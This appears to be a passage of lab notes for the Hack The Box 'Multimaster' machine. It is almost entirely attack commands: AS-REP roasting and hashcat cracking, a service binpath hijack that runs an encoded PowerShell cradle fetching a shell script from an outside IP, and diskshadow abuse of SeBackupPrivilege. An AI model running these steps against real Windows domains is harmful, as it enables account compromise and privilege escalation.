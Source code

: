 ```bash
## set-AdAccountcontrol to  asreproast
Get-ADUser Jorden | Set-ADAccountControl -DoesNotRequirePreAuth $true

## impacket exploit
GetNPUsers.py 'megacorp/jorden' -request

## crack
hashcat --example-hashes | grep krb5asrep -C 20
hashcat -m 18200 multimaster-jorden.asrephash ../rockyou.txt
-- shell jorden
# winpeas enum

download C:\windows\system32\spool\drivers\color\wp-jorden.log /home/kali/lab/htb/multimaster/jorden/wp-jorden.log
download C:\windows\system32\spool\drivers\color\20221225072115_BloodHound.zip /home/kali/lab/htb/multimaster/jorden/20221225072115_BloodHound-jorden.zip

---- System
-- sc service write

# exploit service genericwrite. service usosvc
sc.exe config UsoSvc binpath="cmd.exe /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA=="
sc.exe config usosvc start= auto
sc.exe qc usosvc
sc.exe start usosvc

-- seBackupPrivilege
# diskshadow scripts
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit

unix2dos test.txt

upload /home/kali/lab/htb/multimaster/sebackup/test.txt c:\programdata\test.txt
```

# Enum

## nmap scan
